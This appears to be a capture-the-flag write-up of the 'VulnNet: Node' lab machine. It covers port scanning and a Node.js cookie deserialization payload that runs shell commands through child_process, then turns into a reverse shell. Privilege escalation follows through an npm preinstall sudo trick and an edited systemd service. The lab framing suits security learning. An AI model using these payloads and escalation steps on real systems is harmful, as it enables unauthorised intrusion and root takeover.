# VulnNet: Node

### Description

- Difficulty: easy
- O.S: linux
### Connectivity

I pinged the machine to check connectivity.



### Port enumeration

I did a nmap scan to see which ports are open and what services are running.

```bash
nmap <IP> -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG allports
```



```bash
nmap <IP> -p22,8080 -sCV -oN targeted
```



Nmap results:

- 22 <- ssh - With credentials I could connect to the machine
- 8080 <- http - Web page

### Web enumeration

I opened the login panel with burp suite and I saw I have a cookie session and looking information about the node.js I found that there's a deserialization bug in node.js

We can see the base64 encoded cookie



Looking information I found how to exploit this, fist I copied this and added some modifications for this machine.

``` bash
# Original payload
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
# my payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 3 <IP>', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

I encoded the payload in base64 and I executed it in / instead of /login? because the deserialization bug is in /



The server returned the ping to my host, confirmed RCE.

Then I added a reverse shell instead of the ping and ser a listener. I'm now inside the machine.



I can see I can execute the npm binary with the user serv-manage, thanks to GTFOBins I gained access to the user.




```bash
echo '{"scripts": {"preinstall": "/bin/bash"}}' > package.json
sudo -u serv-manage npm -C . i
```



Now I did another sudo -l, and I see that I can execute three commands:



I looked for the files and I have write privileges so first I stopped the daemon and then I modified the vulnnet-auto.timer file so it will be executed every minute instead of 30 minutes.



Then I modified the vulnnet-job.service adding a reverse shell, I reloaded the daemon started and then I setted a listener and gained the root shell.




### Lessons learned

- I learned how to do a deserialization attack in node.js
- Sudo binaries are dangerous
- Bad privileges in root files are critical